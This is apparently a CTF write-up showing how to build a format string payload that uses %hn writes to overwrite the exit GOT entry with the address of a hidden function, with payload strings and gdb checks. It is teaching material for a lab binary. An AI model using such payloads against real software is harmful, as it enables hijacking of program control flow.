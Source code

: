 ### How to find the payload

For this one we are directly going to do the optimized way using %hn instead of %n and write a word (4 bytes) on the 2 part of the address of the GOT this time which is 0x80484a4. So we need to write those 4 bytes in two addresses in little endian:
- 0x8049838 = \x38\x98\x04\x08
- 0x8049840 = \x40\x98\x04\x08

Then we need the value we want to inject into this address, which is the address of o() so 0x80484a4. We divide it into two parts and we check its decimal value:
- 0804 - high order bytes - 2052  in decimal
- 84a4 - low order bytes  - 33956 in decimal

The lowest decimal score is the high order so we are going to start with the high order, and move the stack pointer to be at the beginning of the buffer, which is 3 positions away and calculate the size of the first buffer size which is 2052 - 8 (addresses) - 11 (%x * 2) = 2033:

```py
'\x40\x98\x04\x08' + '\x38\x98\x04\x08' + '%x' * 2 + '%2033x' + '%hn' + '%hn'
```

We can verify if it works well so far:


```sh
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x08040804
```

The value is correct, let's work on the low order bytes now. So it is 33956 - 2052 = 31904. We don't forget to add the AAAA, and to remove 4 from the high order bytes buffer:

```py
'\x40\x98\x04\x08' + 'AAAA' + '\x38\x98\x04\x08' + '%x' * 2 + '%2029x' + '%hn' + '%31904x' + '%hn'
```

We can now check if the variable in 0x8049838 is 0x80484a4 and if we managed to modify the GOT:

```sh
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080484a4
```

And here we are !
